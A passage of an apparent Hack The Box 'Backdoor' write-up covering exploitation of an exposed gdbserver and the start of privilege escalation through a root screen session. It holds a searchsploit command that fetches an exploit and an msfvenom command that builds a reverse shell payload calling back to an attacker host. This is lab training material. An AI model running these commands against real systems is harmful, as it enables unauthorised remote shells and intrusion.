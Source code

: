 Filtering results reveals:

`/bin/sh -c while true; do su user -c "cd /home/user; gdbserver --once 0.0.0.0:1337 /bin/true;"; done`

---

### 3.3 What is GDB and gdbserver?

- **GDB**: GNU Debugger, used to inspect and control programs during execution.
- **gdbserver**: Runs on the target machine to allow remote debugging by GDB running on another machine.

---

### 3.4 Exploiting `gdbserver`

Search for exploits:

![sploit_gdbserver](GitHubv2/HackTheBox/EASY/Backdoor/screenshots/sploit_gdbserver.png)

Download exploit:

``` bash
searchsploit -m linux/remote/50539.py
```

Prepare reverse shell payload:

``` bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 PrependFork=true -o rev.bin
```

Run exploit and connect, obtaining a shell as `user`.

![user_flag](GitHubv2/HackTheBox/EASY/Backdoor/screenshots/user_flag.png)

✅ **User flag obtained**

---

## 4. Privilege Escalation

### 4.1 Process Analysis

List running processes:

``` powershell
ps -faux | grep screen
```

![screen_executing](GitHubv2/HackTheBox/EASY/Backdoor/screenshots/screen_executing.png)

Found:

``` bash
find /var/run/screen/S-root -empty -exec screen -dmS root ;
```
